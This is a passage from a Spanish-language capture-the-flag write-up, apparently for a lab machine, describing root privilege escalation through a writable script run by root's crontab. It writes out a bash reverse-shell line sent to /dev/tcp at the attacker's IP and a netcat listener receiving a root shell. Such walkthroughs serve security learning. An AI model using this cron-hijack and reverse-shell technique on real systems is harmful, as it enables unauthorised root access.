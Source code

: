 Despues de hacer busqueda de SUID de Capabilities he dado con abrir /etc/crontab nos salee esto:
````bash
www-data@ip-10-10-23-108:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /var/backups/script.sh
````
vamos a ver los permisos que tiene

````bash
www-data@ip-10-10-23-108:/$ ls -la /var/backups/script.sh
````
tiene todos los permisos solo queda remplazar lo que hay dentro por nuestra shell yo he usado este coamndo:

````bash
echo "bash -i >& /dev/tcp/10.9.3.53/4444 0>&1" >> /var/backups/script.sh
````
En mi local host he usado netcat
````bash
$ nc -lvnp 4444                   
listening on [any] 4444 ...
connect to [10.9.3.53] from (UNKNOWN) [10.10.23.108] 36836
bash: cannot set terminal process group (4155): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-23-108:~# whoami
whoami
root
````
## Task 1 Hack the machine !

1. user.txt
dentro de la carpeta de el yana está ahí, estan en base64 hay que descodoficarlo, yo he usado ciberchef pero podeis usar el propio decode de linux

cd /elyana
cat user.txt
pasar por ciberchef:
